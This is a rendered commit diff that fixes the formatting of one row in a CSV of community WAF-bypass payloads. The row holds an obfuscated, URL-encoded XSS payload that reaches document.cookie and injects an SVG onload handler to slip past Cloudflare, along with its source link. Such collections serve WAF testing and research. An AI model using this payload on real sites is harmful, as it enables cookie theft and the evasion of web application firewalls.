

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
fix format

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-row 474: https://medium.com/@youghourtaghannei/cloudflare-bypass-and-exploit-your-xss-e720b7333305 | javas%09cript:ghi=%27)%3E%27 | you=%27(top%5B%22docum%22%2B%22ent%22%5D.cookie%27;HTMLElement%5B%27inne%27%2B%27rHTML%27%5D=%27%3CSvg/OnLoad=alert%27%2Brob%2Beco;// | xss
+row 474: https://medium.com/@youghourtaghannei/cloudflare-bypass-and-exploit-your-xss-e720b7333305 | javas%09cript:ghi=%27)%3E%27,you=%27(top%5B%22docum%22%2B%22ent%22%5D.cookie%27;HTMLElement%5B%27inne%27%2B%27rHTML%27%5D=%27%3CSvg/OnLoad=alert%27%2Brob%2Beco;// | xss
```
